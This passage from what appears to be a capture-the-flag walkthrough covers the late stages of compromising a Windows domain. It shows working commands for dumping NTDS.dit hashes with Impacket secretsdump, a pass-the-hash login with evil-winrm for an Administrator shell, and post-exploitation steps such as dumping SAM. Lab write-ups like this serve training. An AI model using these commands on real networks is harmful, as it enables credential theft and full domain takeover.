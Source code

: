 ```bash
base64 -d file.b64 > file.decoded
strings file.decoded | less
```

**Why:** Backup shares often contain useful artifacts and sometimes direct credentials or password files used by backup jobs.

---

### 6. Extract NTDS via Backup/DRSUAPI

If the account has backup privileges or you locate a backup file with `NTDS.dit` or SYSTEM hive, use Impacket `secretsdump.py` to extract NT hashes. There are two common approaches:

**A. Using backup account credentials (SMB/DRSUAPI):**

```bash
# DRSUAPI secretsdump (just-dc to target DC)
python3 /usr/share/doc/impacket/examples/secretsdump.py 'DOMAIN/svc-backup:Password'@<TARGET> -just-dc
```

**B. If you found `NTDS.dit` + SYSTEM from a backup:**

* Download both files
* Use `impacket-secretsdump` local method or `ntdsutil` parsing tools to extract hashes.

The output will include NTLM hashes for domain users including Administrator.

**Why:** `NTDS.dit` contains the domain's password hashes — the final prize for full compromise.

---

### 7. Pass-the-Hash & Admin Shell

Use the obtained Administrator NTLM hash to authenticate without needing the plaintext password.

```bash
# Evil-WinRM PTH
evil-winrm -i <TARGET> -u Administrator -H <ADMIN_NTLM_HASH>
```

If successful, you get an interactive Administrator shell. Grab `root.txt`/`user.txt` or other proof files.

**Alternative:** Use `pth-smbclient`, `smbexec`, or `psexec` style tools that accept NTLM hashes.

---

## Post-Exploitation & Evidence Collection

* Collect `C:\Users\Administrator\Desktop\` or `C:\Users\<user>\Desktop\` flags.
* Dump local SAM, registry, and service configs if needed.
* Check `Group Policy` and `Scheduled Tasks` for persistence.
* Capture screenshots and saved evidence (timestamps, command history) for reporting.

---

